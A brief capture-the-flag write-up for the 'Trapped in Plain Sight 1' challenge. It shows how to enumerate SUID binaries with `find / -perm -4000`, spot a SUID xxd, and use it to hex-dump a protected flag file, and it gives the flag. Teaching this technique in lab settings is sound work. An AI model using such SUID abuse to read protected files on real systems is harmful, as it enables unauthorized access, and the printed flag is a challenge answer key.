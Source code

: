 # Trapped in Plain Sight 1
# Misc
## Description
> Just try to read my flag. 0x0

# Given
The password is password.
ssh -p REDACTED trapped@REDACTED

# Solution

```bash
total 32K
dr-xr-xr-x 1 trapped  trapped  4.0K Mar 14 19:23 .
dr-xr-xr-x 1 root     root     4.0K Mar 14 19:23 ..
-r--r--r-- 1 trapped  trapped   220 Feb 25  2020 .bash_logout
-r--r--r-- 1 trapped  trapped  3.7K Feb 25  2020 .bashrc
-r--r--r-- 1 trapped  trapped   807 Feb 25  2020 .profile
-r-x------ 1 noaccess noaccess   28 Mar 14 19:23 flag.txt
```

Unreadable flag... I'm a sysadmin lets see if its really unreadable :P

First thing I check in theese kind of challenge is set UID bit. Fellow CTF player keep this command close: `find / -perm -4000 -type f 2>/dev/null`

```bash
find / -perm -4000 -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/xxd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

xxd? Well I speak computer so I don't mind a bit of hex ;)

```bash
trapped@47ca6c33ca55:~$ xxd flag.txt 
00000000: 7574 666c 6167 7b53 7065 6369 614c 5f50  utflag{SpeciaL_P
00000010: 6572 6d69 7373 696f 6e7a 7d0a            ermissionz}.
```

`utflag{SpeciaL_Permissionz}`
